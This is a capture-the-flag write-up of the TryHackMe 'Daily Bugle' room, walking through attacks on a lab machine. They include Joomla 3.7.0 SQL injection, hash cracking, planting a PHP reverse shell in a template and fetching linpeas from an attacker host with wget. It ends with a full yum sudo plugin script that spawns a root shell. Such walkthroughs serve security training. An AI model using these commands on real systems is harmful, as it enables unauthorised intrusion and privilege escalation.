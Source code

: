 A quick autorecon scan reveals a number of open ports. We confirm with an nmap scan.

<center>

![a6ff4cf9e9f985bd7cb1e2491264d1a9.png](/Daily%20Bugle/_resources/a6ff4cf9e9f985bd7cb1e2491264d1a9.png)

![717a1c54c37a686bbed4a6e2feecea66.png](/Daily%20Bugle/_resources/717a1c54c37a686bbed4a6e2feecea66.png)

</center>

Let's start enumerating the web server. Along with some shocking news, we find a login form.

<center>

![f8ba35371648d4632c5f5e8b1f779232.png](/Daily%20Bugle/_resources/f8ba35371648d4632c5f5e8b1f779232.png)

</center>

Examining the `robots.txt` file from our autorecon output (or just navigating to the `/robots.txt` directory) reveals some potentially interesting directories.

```txt
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Let's check the administrator directory. We find a Joomla login form.

<center>

![556cdf785bd0990447c6209117bb1981.png](/Daily%20Bugle/_resources/556cdf785bd0990447c6209117bb1981.png)

</center>

We can get more information using the joomscan tool. After installing joomscan, we use `joomscan -ec -u 10.10.53.236`.  The `-ec` flag tells joomscan to enumerate components. Alternatively, we can look around the webpage a bit more. Some Googling tells us that the Joomla version number can be found at `/language/en-GB/en-GB.xml`.

<center>

![6fc698e1b5863693652d9c2be6164516.png](/Daily%20Bugle/_resources/6fc698e1b5863693652d9c2be6164516.png)

</center>

Let's also run a gobuster scan to check for any interesting directories.
```bash
gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt
```

<center>

![d5f652010da5f71b2afb2ea5073046c0.png](/Daily%20Bugle/_resources/d5f652010da5f71b2afb2ea5073046c0.png)

</center>

The `README.txt` files gives us some info about Joomla, including the version number (which we found above through a slightly unconventional method).

<br>

# Exploitation

Since we have a service and a version number, we can begin looking for a vulnerability to exploit. Searchsploit tells us that Joomla 3.7.0 is vulnerable to SQL injection.

<center>

![dbf7b5f5093d2e5e69069c09c2de9107.png](/Daily%20Bugle/_resources/dbf7b5f5093d2e5e69069c09c2de9107.png)

</center>

We use ``sqlmap -u http://10.10.50.236 --forms --crawl=10``, selecting all default options along the way. After a while, we don't get any results. One option is to do the SQLi manually; see [this link](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) for a nice writeup.

Some Googling tells us that we can also make use of [this script](https://github.com/XiphosResearch/exploits/tree/master/Joomblah), which is an exploit for Joomla 3.7.0. Run `python2.7 joomblah.py http://10.10.50.236`. (Note: I had to specifically use Python 2.7 here, as the script wasn't running properly.)

<center>

![1bd76d5497480cfbd64aa3c8feafba9a.png](/Daily%20Bugle/_resources/1bd76d5497480cfbd64aa3c8feafba9a.png)

</center>

We get a few usernames (one of which we already knew of from the webpage) together with a hash. Let's crack it with hashcat. I typically have some trouble using hashcat on a VM,  so I follow the methodology [here](https://samsclass.info/123/proj10/p12-hashcat.htm) to use an old version of hashcat which my VM could run.

```bash
/home/kali/hash/hashcat-cli32.bin -m 3200 -a 0 -o found.txt hash.txt /usr/share/wordlists/rockyou.txt
```

We specify the path to the binary, and we use:
- `-m` to specify the mode. In this case, I chose 3200 according the list of [hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes).
- `-a` specifies the attack mode. 0 corresponds to a dictionary attack.
- `-o` specifies the output file.
- We then specify the file with our hashes (in this case just one), and the path to the wordlist. In this case, we're using `rockyou.txt`.

After exactly 1h 15m, the hash was cracked. This would have gone faster if I had used my Windows host machine to run hashcat, as opposed to my Kali VM image.

<center>

![afd68c9a45b3e5ad65d0a91905a165b4.png](/Daily%20Bugle/_resources/afd68c9a45b3e5ad65d0a91905a165b4.png)

![35d0c711d7e5c2e106a9637df095cc1a.png](/Daily%20Bugle/_resources/35d0c711d7e5c2e106a9637df095cc1a.png)

</center>

Now we can log in to Jonah's Joomla account from the administrator login page we found earlier.

<center>

![901e4e8b85712ca547bd3dc0b82f8d01.png](/Daily%20Bugle/_resources/901e4e8b85712ca547bd3dc0b82f8d01.png)

</center>

Looking around, we eventually find a page which allows us to edit the templates associated with the Joomla CMS. If we click on the Beez3 template, we see a list of php file which we can potentially exploit. Let's look at the /index.php file.

<center>

![2efd186e9ae789e0f017c44337ab9493.png](/Daily%20Bugle/_resources/2efd186e9ae789e0f017c44337ab9493.png)

![d9052a8b13b38bdca3e0b2f3d269a9b8.png](/Daily%20Bugle/_resources/d9052a8b13b38bdca3e0b2f3d269a9b8.png)

</center>

We will use the standard [Pentestmonkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We copy and paste the shell code into the /index.php file, making sure to use our attacking machine IP and a port of our choice.

<center>

![1fb736dbb57acf3a7ab718fb45c1e930.png](/Daily%20Bugle/_resources/1fb736dbb57acf3a7ab718fb45c1e930.png)

</center>

Now set up a netcat listener and navigate to `http://10.10.76.10/templates/beez3/index.php` to catch the reverse shell, giving us initial access.

<center>

![cd460351fcc4cf08333b8354fe9269ac.png](/Daily%20Bugle/_resources/cd460351fcc4cf08333b8354fe9269ac.png)

</center>

<br>

# Post-exploitation

Let's start by upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")'
`. Looking around the file system, we find a directory belonging to `jjameson`, which we don't seem to have access to. Let's try escalating our privilege. Using `find / -perm -u=s -type f 2>/dev/null` to look for files with the SUID bit set, we find some candidates.

<center>

![83e467cfd5af8ddef71a1a5ca54f5986.png](:/ef6fef1754134cef922e9b441d0216f3)

</center>

At this point, we check [GTFObins](https://gtfobins.github.io/) to see if we can leverage any of the binaries we found in our search. It doesn't look like this is the right approach. Let's instead use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.

<center>

![def636cb01192ace178966359de736d8.png](:/ba4a4c8d22f5415d9a1d9221bfed94ab)

</center>

Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions.

<center>

![c394d08ab7b3fd4ae59b407365d2a84b.png](:/49124ee91b074e2db96e3c2fd8c77583)

</center>

Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`. We find a password in a public PHP config file.

<center>

![1a34e49fbe938a3d2f25ec3018589374.png](:/a6a1fd03e1814f36bcdd8099d535919d)

</center>

Earlier we found a user named jjameson, so we can try using the password we just found so switch into his account.

<center>

![82bbb48b299ce44bf1c3993fad8b731e.png](:/5cc7bd5d61604f0e8e7e8296088f3c80)

</center>

Success! Navigating to jjameson's home directory gives us the `user.txt` flag.

Now we look for a way to escalate our privilege to obtain the root flag. Using `sudo -l` tells us that jjameson can run the yum binary with sudo privileges.

<center>

![23809e8f1de19246829b7a180af6c061.png](:/2767ac94131442fc826577a098d2c331)

</center>

Going back to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we see that yum does not drop elevated privileges when run as sudo. We can spawn a root shell with the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

(It may be easier to just copy and paste line-by-line directly from GTFOBins.)

As promised, we get a shell with root access which we then use to quickly find the `root.txt` flag.
 
<center>

![ad5d66d1a634cc31982f20b70c324841.png](:/cdd46c7f57164638b8ecda9eed6472e9)

![0b2f3894eda28b03b1003c5bad1b1f2c.png](:/0301af5c6f82486da92af6fb437637af)

</center>